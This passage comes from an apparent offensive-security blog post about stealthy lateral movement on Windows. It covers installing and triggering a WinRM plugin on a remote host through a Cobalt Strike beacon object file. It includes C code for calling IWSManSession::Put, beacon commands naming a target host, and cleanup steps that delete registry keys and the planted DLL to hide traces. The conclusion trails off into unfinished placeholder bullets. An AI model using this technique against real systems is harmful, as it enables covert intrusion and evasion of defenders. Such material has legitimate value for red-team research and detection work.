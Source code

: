 To expose and be able to call the `Put` method, we first need to query a pointer to the session object with `QueryInterface`:
```
CLSIDFromString(L"{FC84FC58-1286-40c4-9DA0-C8EF6EC241E0}", &IID_WSMAN_SESSION);
IWSManSession* pSession = NULL;
hr = pSessionDispatch->QueryInterface(IID_WSMAN_SESSION, (void**)&pSession);
if (FAILED(hr)) {
    BeaconPrintf(CALLBACK_ERROR, "error QueryInterface, COM error: (hr=%08X)\n", hr);
    goto COMInstanceRelease;
}
DEBUG("Success QueryInterface\n");
```

And then we finally make the call:
```
 VariantInit(&resourceUri);
 resourceUri.vt = VT_BSTR;
 resourceUri.bstrVal = SysAllocString(L"https://schemas.microsoft.com/another-winrm-plugin");
 BSTR resourceData = SysAllocString(L"<a/>");
 LONG flags = NULL;
 BSTR result = NULL;
 hr = pSession->Put(resourceUri, resourceData, flags, &result);
 if (FAILED(hr)) {
     BeaconPrintf(CALLBACK_ERROR, "error Put, COM error: (hr=%08X)\n", hr);
     goto COMClearVariant;
 }
 DEBUG("Success Put, result: %ws\n", result);
```

BOF command:
```
beacon> winrm-plugin-jump --action call --hostname app1
```

**3 - Uninstall the plugin**: Before forgetting about the system, we need to clean all ~~the mess~~ the changes we made.
- Enable and start `RemoteRegistry` via `SCManager` and delete the keys with `RegDeleteTreeW` (and ask a bit more technical debt).
- Restart the WinRM service. Keep in mind that doing this will cause all beacons running within `winprovhost.exe` process to die.
- Delete the DLL from `System32`.

BOF command:
```
beacon> winrm-plugin-jump --action uninstall --hostname app1
```

You can find the code for the WinRM plugin + the BOF [here](https://github.com/FalconForceTeam/bof-winrm-plugin-jump).

## Conclusion
- Using WinRM plugins, we managed to successfully perform lateral movement in a stealthy fashion.
- This is a newly discovered technique which allows to...
- ...
- ...
- ...

